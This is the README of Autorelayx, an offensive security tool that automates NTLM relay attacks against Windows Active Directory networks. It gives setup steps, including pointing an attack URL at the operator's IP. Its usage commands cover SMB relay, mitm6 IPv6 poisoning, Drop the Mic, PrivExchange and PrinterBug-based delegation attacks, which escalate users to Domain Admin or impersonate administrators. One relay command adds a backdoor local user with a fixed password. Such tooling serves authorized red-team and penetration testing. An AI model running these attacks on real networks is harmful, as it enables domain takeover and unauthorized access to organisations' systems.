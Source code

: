 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump python2 python3
    pip install pipenv
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx

Open the file autorelayx/tools/PrivExchange/httpattack.py. Replace the string "dev.testsegment.local/myattackerurl/" 
with your local IP address (run `ip a` to find your local IP). The modified line should look something like: 
`attacker_url = 'http://192.168.1.30'` where 192.68.1.30 is your actual local IP. 

    cd autorelayx
    cp tools/PrivExchange/httpattack.py tools/impacket/impacket/examples/ntlmrelayx/attack/httpattack.py
    sudo pipenv install
    sudo pipenv shell
    cd tools/impacket
    pip install .

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l <hostlist.txt>```

SMB relay with a custom command and without checking SMB signing.

```python autorelayx.py -tf <targets_file.txt> -c <"net user /add danmcinerney P@ssword123456">```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. The -i <interface> argument is optional and specifies the interface to use for both 
Responder and mitm6. The -d <domain> is optional but suggested to use to limit mitm6's responses.

```python autorelayx.py -l <hostlist.txt> -6 -d <domain for mitm6 to poison> -i <interface>```

## Drop the Mic
Escalate a domain user that you have the password for to Domain Admin. Script will test the exchange server(s) for 
vulnerability to SpoolService RPC abuse for the Drop the Mic attack.

```python autorelayx.py --remove-mic -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -sf <exchange_servers.txt>```

```python autorelayx.py --remove-mic -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <Exchange IP/hostname>```

## PrivExchange
Escalate a domain user that you have the password for to Domain Admin.

```python autorelayx.py --privexchange -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <exchange server IP/hostname>```

## Passwordless PrivExchange
If you don't have a domain user's password you can try performing the passwordless PrivExchange attack

```python autorelayx.py --httpattack -s <exchange server IP/hostname>```

Passwordless PrivExchange attack coupled with mitm6 poisoning on specific domain

```python autorelayx.py --httpattack -s <exchange server IP/hostname> -6 -d <domain for mitm6 to poison>```

## Delegation
Requires no domain credentials. Creates a new machine account, prints the username and password of the new machine 
account, and modifies its delegation rights. Upon success, please use getST.py from impacket to relay the delegation and
 gain access to the machine account.
 
 ```python autorelayx.py --delegate -dc <domain controller IP/hostname>```

## Domain controller delegation
Requires 2 domain controllers, at least one of which must be vulnerable to PrinterBug, and a domain user's credentials. 
Forces the PrinterBug-vulnerable domain controller to authenticate to the attacker which is relayed to the other domain 
controller. A machine account is created and given delegation rights. Upon success, user can use getST.py from impacket 
to impersonate a domain admin on the newly created machine.

 ```python autorelayx.py --delegate-dc -dc <domain controller IP/hostname> -s <PrinterBug-vulnerable domain controller> -u <DOM/user:password>```